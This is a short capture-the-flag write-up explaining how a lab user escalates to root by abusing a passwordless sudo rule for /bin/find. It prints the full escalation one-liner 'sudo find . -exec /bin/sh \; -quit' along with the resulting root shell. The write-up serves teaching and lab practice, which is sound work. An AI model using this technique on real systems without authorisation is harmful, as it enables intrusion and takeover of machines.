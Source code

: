 # Solution of ctf_3
## Goal
Discovering a tool for privilege escalation.

## Step by step
As always, let's see the tip.
>
    user3@cec9d28f92fc:~$ ls
    user.txt
    user3@cec9d28f92fc:~$ cat user.txt 
    You will need to find deeper than that !


It is not quite clear for now how we should proceed... Let's try the same thing as the previous ctf.

>
    user3@cec9d28f92fc:~$ sudo -l
    Matching Defaults entries for user3 on cec9d28f92fc:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User user3 may run the following commands on cec9d28f92fc:
        (ALL) NOPASSWD: /bin/find

It seems now that we have access to another command : `/bin/find`. And we can use it as root with no password. But how to gain root access with it ?

At this point, you can make research on your side on how to use `/bin/find` and find the answer.

Here, I will give you a website to also help you with future CTFs : `https://gtfobins.github.io/`.

This website is really useful for this kind of situation. When you are able to execute commands (binaries) with sudo, this website is the way to go to learn if something fancy is possible.

If you search `find`, you see that this command can be used particularly with `Sudo`.
> 
    Sudo
    If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

        sudo find . -exec /bin/sh \; -quit

It seems that there is a way to keep root privilege by running this command. Let's try it out.

> 
    user3@cec9d28f92fc:~$ sudo find . -exec /bin/sh \; -quit
    # whoami
    root

Bingo ! We are now root ! You can now `cd /root` and find the flag.

